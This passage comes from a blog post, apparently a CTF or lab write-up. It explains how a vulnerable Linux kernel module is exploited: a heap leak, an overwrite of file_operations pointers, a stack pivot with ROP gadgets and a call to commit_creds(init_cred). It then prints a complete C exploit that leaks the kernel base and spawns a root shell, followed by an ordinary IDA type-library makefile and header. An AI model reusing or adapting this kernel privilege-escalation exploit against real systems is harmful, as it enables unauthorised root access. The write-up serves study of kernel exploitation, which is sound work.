

So we can leak heap via this object.


## ROP

Finding the right gadgets to overwrite `file_operations` objects is quiet a bit challenge because you can't control its function pointers' arguments.


Frist, change `flip->file_operations` to our fake object:

```c
 *(uint64_t*)(0x13380b0) = victim_chunk + 0x18 - 0x10;
```

For testing, we temporary overwrite the function pointer to 0x1337:
```c
 *(uint64_t*)(0x1337060) = 0x1337;
```

I hit the breakpoint:




But as I said, it's hard to control arguments.

BUT I notice that sometimes luckily $rbp is mmaped to our user page.



So just write the function pointer to gadget `leave ; ret`:

```
0xffffffff81287be2: leave ; ret
```

So luckily that there are two useful gadgets:

```
0xffffffff81ebebc1: add rsp , 0x30 ; ret
0xffffffff81287be2: pop rsp ; ret
```

I used these gadgets to stack pivot, change `$rsp` to a heap address that also is maped to our user page

So now we can easily ROP and get the root shell.

Full exploit code:
```c
#define _GNU_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <errno.h>
#include <signal.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <poll.h>
#include <pthread.h>
#include <fcntl.h>
#include <sched.h>
#include <stdint.h>

#include <sys/mman.h>
#include <sys/ioctl.h>
#include <sys/syscall.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/mount.h>
#include <sys/utsname.h>
#include <sys/wait.h>
#include <sys/msg.h>
#include <sys/types.h>
#include <sys/xattr.h>
#include <sys/shm.h>
#include <sys/capability.h>

#include <linux/btrfs.h>
#include <linux/userfaultfd.h>
#include <linux/sysctl.h>
#include <linux/capability.h>
#include <linux/types.h>
#include <liburing.h>

typedef uint8_t u8;
typedef uint16_t u16;
typedef uint32_t u32;
typedef uint64_t u64;

typedef int8_t i8;
typedef int16_t i16;
typedef int32_t i32;
typedef int64_t i64;

#define DEBUG
#ifdef DEBUG

#define logOK(msg, ...) dprintf(STDERR_FILENO, "[+] " msg "\n", ##__VA_ARGS__)
#define logInfo(msg, ...) dprintf(STDERR_FILENO, "[*] " msg "\n", ##__VA_ARGS__)
#define logErr(msg, ...) dprintf(STDERR_FILENO, "[!] " msg "\n", ##__VA_ARGS__)
#else
#define errExit(...) \
    do               \
    {                \
    } while (0)

#define WAIT(...) errExit(...)
#define logOK(...) errExit(...)
#define logInfo(...) errExit(...)
#define logErr(...) errExit(...)
#endif

#define asm __asm__

u64 user_ip;
u64 user_cs;
u64 user_rflags;
u64 user_sp;
u64 user_ss;

u8 WAIT()
{
    write(STDERR_FILENO, "[WAITING...]\n", 13);
    u8 c;
    read(STDIN_FILENO, &c, 1);
    return c;
}

static inline void panic(const char* msg)
{
    perror(msg);
    exit(EXIT_FAILURE);
}

uint64_t bak1;
uint64_t bak2;
uint64_t bak3[2];
uint64_t bak4[2];
uint64_t bak5[11];

void getShell()
{
    if (getuid())
    {
        panic("NO ROOT");
    }
    write(STDERR_FILENO, "Rooted!\n", 8);

    *(uint64_t*)(0x1337060) = bak1;
    *(uint64_t*)(0x13380b0) = bak2;
    memcpy((void*)0x1338000, bak3, sizeof(bak3));
    memcpy((void*)0x1338090, bak4, sizeof(bak4));
    memcpy((void*)0x1337078, bak5, sizeof(bak5));

    char* argv[] = { "/bin/sh", NULL };
    char** envp = &argv[1];
    execve(argv[0], argv, envp);
}


void save_state()
{
    __asm__(
        "mov [rip + user_cs], cs\n"
        "mov [rip + user_ss], ss\n"
        "mov [rip + user_sp], rsp\n"
        "mov [rip + user_ip], %0\n"
        "pushf\n"
        "pop qword ptr [rip + user_rflags]\n" ::"r"(getShell));
    logInfo("Saved user state");
}

void pin_cpu(int cpu)
{
    cpu_set_t cpu_set;
    CPU_ZERO(&cpu_set);
    CPU_SET(cpu, &cpu_set);
    if (sched_setaffinity(0, sizeof(cpu_set), &cpu_set) != 0)
    {
        panic("sched_setaffinity");
    }
}

#define devfile "/dev/test"

int devfd;
char* m1;
char* m2;
char* m3;
uint64_t kbase;
#define FIX_ADDR(x) (x-0xffffffff81000000+kbase)

int main(int argc, char** argv, char** envp)
{

    pin_cpu(0);
    save_state();

    int devfd1 = open(devfile, O_RDWR);
    int devfd2 = open(devfile, O_RDWR);
    // int devfd3 = open(devfile, O_RDWR);


    int ran = open("/dev/urandom", O_RDONLY);

    int fds[0x3000 / 0x20] = { 0 };
    uint i = 0;

    char buf[0x321];
    read(ran, buf, sizeof(buf));
    buf[0] = 0;

    m1 = mmap((void*)0x1337000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd1, 0);
    if (m1 == MAP_FAILED) {
        panic("mmap(m1)");
    }

    m1[0] = 'A';
    m1[0x1000] = 'B';
    m1[0x2000] = 'C';

    m2 = mmap((void*)0x1347000, 0x3000,
        PROT_READ | PROT_WRITE, MAP_FILE | MAP_FIXED | MAP_SHARED, devfd2, 0);
    if (m2 == MAP_FAILED) {
        panic("mmap(m2)");
    }

    m2[0] = 'A';
    m2[0x1000] = 'B';
    m2[0x2000] = 'C';

    usleep(1000);
    pin_cpu(0);

    for (uint i = 0; i < 9;++i)
        open("/proc/self/stat", O_RDONLY);

    write(devfd1, buf, sizeof(buf));

    for (i = 0; i < 0x3000 / 0x20; ++i) {
        fds[i] = open("/proc/self/stat", O_RDONLY);
        if (fds[i] < 0)
            panic("spray open");
    }

    uint64_t proc_single_file_operations = *(uint64_t*)(0x13380b0);
    uint64_t victim_chunk = *(uint64_t*)(0x1337048);

    kbase = proc_single_file_operations - 0x1226c20;
    logOK("kbase = %p", (void*)kbase);
    logOK("victim_chunk = %p", (void*)victim_chunk);

    if (victim_chunk < 0xffff000000000000 || kbase < 0xffff000000000000 || kbase % 0x1000) {
        logErr("Try harder\n");
        _exit(-1);
    }

    bak1 = *(uint64_t*)(0x1337060);
    bak2 = *(uint64_t*)(0x13380b0);

    *(uint64_t*)(0x1337060) = FIX_ADDR(0xffffffff814bb6fc); // leave ; ret
    *(uint64_t*)(0x13380b0) = victim_chunk + 0x18 - 0x10;

    uint64_t pre_rop[] = {
        0,
        FIX_ADDR(0xffffffff81ebebc1), // add rsp , 0x30 ; ret
    };

    logInfo("%lx\n", FIX_ADDR(0xffffffff814bb6fc));

    memcpy(bak3, (void*)0x1338000, sizeof bak3);
    memcpy((void*)0x1338000, pre_rop, sizeof(pre_rop));

    uint64_t rop1[] = {
        FIX_ADDR(0xffffffff81287be2), // pop rsp ; ret
        victim_chunk + 0x30
    };

    memcpy(bak4, (void*)0x1338090, sizeof bak4);
    memcpy((void*)0x1338090, rop1, sizeof(rop1));

    uint64_t rop2[] = {
        FIX_ADDR(0xffffffff812884c6), // pop rdi ; ret
        FIX_ADDR(0xffffffff82a52ca0), // init_cred
        FIX_ADDR(0xffffffff810bc170), // commit_creds
        FIX_ADDR(0xffffffff82001637), // ret2user
        0, 0,
        user_ip, user_cs, user_rflags, user_sp, user_ss
    };

    memcpy(bak5, (void*)0x1337078, sizeof bak5);
    memcpy((void*)0x1337078, rop2, sizeof(rop2));	

    for (i = 0; i < 0x3000 / 0x20; ++i)
    {
        printf("%u\n", i);
        *(uint64_t*)(0x1337060) = FIX_ADDR(0xffffffff814bb6fc);
        read(fds[i], buf, 1);
    }

}
```

You maybe notice that I keep previous values before change anything. Just try to remove 
```c
    *(uint64_t*)(0x1337060) = bak1;
    *(uint64_t*)(0x13380b0) = bak2;
    memcpy((void*)0x1338000, bak3, sizeof(bak3));
    memcpy((void*)0x1338090, bak4, sizeof(bak4));
    memcpy((void*)0x1337078, bak5, sizeof(bak5))
```

in `getShell`. You will know why I did that.


# TIL is kernel module is oke. What about others?

For other open-source projects, I can't write the details. The building process depends on many things. Try to figure out yourself.

But I can give final example to you how about build some stl class in C++

linux_cpp.mak

```c
TIL_NAME = linux_cpp
TIL_DESC = "Linux C++"
INPUT_FILE = linux_cpp.h

SYSTEM_HEADERS = .\linux-headers\system-headers
USR_INCLUDE_HEADERS = .\linux-headers\usr_include_headers
LIBC_HEADERS = .\linux-headers\libc_headers
CLANG_ARGV = -target x86_64-pc-linux-gnu                               \
			-x c++                                                 \
			-I"$(SYSTEM_HEADERS)" \
			-I"$(USR_INCLUDE_HEADERS)\linux" \
			-I"$(USR_INCLUDE_HEADERS)\c++\11" \
			-I"$(USR_INCLUDE_HEADERS)\x86_64-linux-gnu" \
			-I"$(USR_INCLUDE_HEADERS)\x86_64-linux-gnu\c++\11" \
			-I"$(USR_INCLUDE_HEADERS)" \
			-I"$(LIBC_HEADERS)\c++\11" \
			-I"$(LIBC_HEADERS)"
			

include idaclang.mak
```

`linux_cpp.h`:

```c++
#include <string>
#include <vector>
#include <map>
#include <set>
#include <iostream>
#include <ostream>
#include <istream>

struct stl_example_t
{
    std::string str;
    std::vector<int> vec;
    std::map<std::string, int> map;
    std::set<char> set;
};

extern std::ostream std::cout;
extern std::istream std::cin;
```

# Final
Hope this blog is useful to you. If you find anything is wrong or unclear, don't worry about telling me.
 


